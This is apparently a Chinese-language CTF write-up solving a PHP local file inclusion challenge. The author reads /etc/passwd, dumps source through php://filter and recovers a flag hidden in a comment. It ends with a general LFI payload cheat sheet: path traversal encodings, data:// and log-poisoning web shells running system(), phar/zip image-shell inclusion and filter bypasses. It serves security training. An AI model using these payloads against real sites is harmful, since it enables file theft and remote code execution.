

# [ACTF2020 新生赛]Include

## 题目来源

[ACTF2020 新生赛]Include

## 题目方向 + 知识点

PHP 本地文件包含、`include($file)` 风险、`php://filter` 读取源码、黑名单过滤缺陷、注释中的 flag 提取。

## 解题思路

我先打开首页，页面内容非常简单，只有一行 `tips` 链接，目标地址是 `?file=flag.php`。这种题面通常已经把利用点摆在明面上了：后端大概率会把 `file` 参数直接拿去做文件包含，所以我先顺着这个参数测试。

直接访问 `?file=flag.php` 之后，页面只输出了一句：

```text
Can you find out the flag?
```

这一步说明了两件事。第一，后端确实把 `flag.php` 包含进来了；第二，flag 大概率没有直接 `echo` 出来，否则这一步就应该已经结束了。也就是说，flag 很可能藏在源码注释、变量、条件分支或者未执行路径里。

为了确认后端是不是裸 `include`，我先拿一个最常见的系统文件做验证，访问：

```text
?file=/etc/passwd
```

页面成功回显了 `root:x:0:0:root:/root:/bin/ash` 等系统账户内容，说明这里不是简单的页面跳转，而是真实存在一个可用的本地文件包含，任意文件读取能力已经基本成立。

既然普通文件可以读，那接下来问题就变成：为什么 `flag.php` 读不出 flag？原因很简单，因为它是一个 PHP 文件，`include(flag.php)` 时 PHP 会先执行里面的代码，而源码中的注释不会显示出来。如果 flag 被写在注释里或者变量里面，那么直接包含只会看到正常输出，看不到本身。

所以我下一步要做的，不是继续硬读 `flag.php`，而是把 `flag.php` 当成“源码文本”读出来。处理这类场景最常见的方法就是 `php://filter`。我先尝试用：

```text
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

页面返回了一段 Base64：

```text
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL0NURjJ7NWVlMTRmNjYtNWMyZC00NWQ0LTk3ZjQtMTYxNDY4YmFiZmMyfQo=
```

看到这里其实已经很明确了，这说明 `php://filter` 没有被拦截，而且服务器把 `flag.php` 的源码经过 Base64 编码后原样输出出来了。接着我把这段 Base64 解码，得到的内容是：

```php
<?php
echo "Can you find out the flag?";
//CTF2{5ee14f66-5c2d-45d4-97f4-161468babfc2}
```

到这一步 flag 就已经出来了。前面直接访问 `flag.php` 时之所以看不到结果，是因为 flag 被写在注释中；而 `php://filter` 的作用，是让 `include` 输出“经过过滤器处理后的源码文本”，从而绕过 PHP 正常执行时对注释的忽略。

为了把这个题分析完整，我又顺手回头读了首页源码自身，使用的 payload 是：

```text
?file=php://filter/read=convert.base64-encode/resource=index.php
```

解码后可以看到核心逻辑：

```php
<?php
error_reporting(0);
$file = $_GET["file"];
if(stristr($file,"php://input") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")){
	exit('hacker!');
}
if($file){
	include($file);
}else{
	echo '<a href="?file=flag.php">tips</a>';
}
?>
```

这段代码正好解释了为什么这题能做出来。开发者确实意识到了包装器风险，所以手工拉了一个黑名单，拦截了 `php://input`、`zip://`、`phar://` 和 `data:`。但这个黑名单并不完整，它漏掉了 `php://filter`，于是我仍然可以借助 `php://filter` 读取任意 PHP 文件源码。


```text
?file=php://filter/read=string.rot13/resource=flag.php
```

或者：

```text
?file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
```


## Flag

`CTF2{5ee14f66-5c2d-45d4-97f4-161468babfc2}`


**常用 Payload 分类/绕过方式**

**1. 直接本地文件读取**

```
?file=/etc/passwd
?file=../../../../etc/passwd
?file=../index.php
?file=/proc/self/environ
?file=/proc/self/cmdline
```

**2. 伪协议读 PHP 源码**
最常用：

```
?file=php://filter/read=convert.base64-encode/resource=index.php
```

其他变体：

```
?file=php://filter/read=string.rot13/resource=index.php
?file=php://filter/read=convert.quoted-printable-encode/resource=index.php
```

**3. 目录穿越**

```
?file=../../../../flag
?file=....//....//....//etc/passwd
?file=..%2f..%2f..%2fetc%2fpasswd
?file=..%252f..%252f..%252fetc%252fpasswd
```

**4. 空字节 / 旧环境截断**
老版本 PHP 才常见：（绕过加后缀）

```
?file=../../../../etc/passwd%00
```

**5. 包装器利用**
源码读取：

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

输入流执行/读取：

```
?file=php://input
```

数据流：

```
?file=data://text/plain,hello
?file=data://text/plain,<?php system($_POST['cmd']); ?>
```

压缩/归档：

```
?file=zip://shell.jpg%23payload.php
?file=phar://upload.jpg/test.txt
```

**6. 日志投毒 / Session 包含**
先把 PHP 代码写进日志或 session，再包含：

```
User-Agent: <?php system($_GET['cmd']); ?>
?file=/var/log/nginx/access.log&cmd=id
```

常见目标：

```
/var/log/nginx/access.log
/var/log/apache2/access.log
/var/lib/php/sessions/sess_<id>
```

**7. 上传文件配合包含**
如果能上传图片马：

```
?file=uploads/shell.jpg
?file=phar://uploads/shell.jpg/test.txt
```

**8. 白名单 / 截断绕过**
比如只检查 `?` 前半段：

```
?file=source.php?./../../../../flag
```

比如 URL 解码差异：

```
?file=php:%2f%2ffilter/read=convert.base64-encode/resource=flag.php
```

比如大小写、双写、编码混淆：

```
pHp://filter
....//....//
```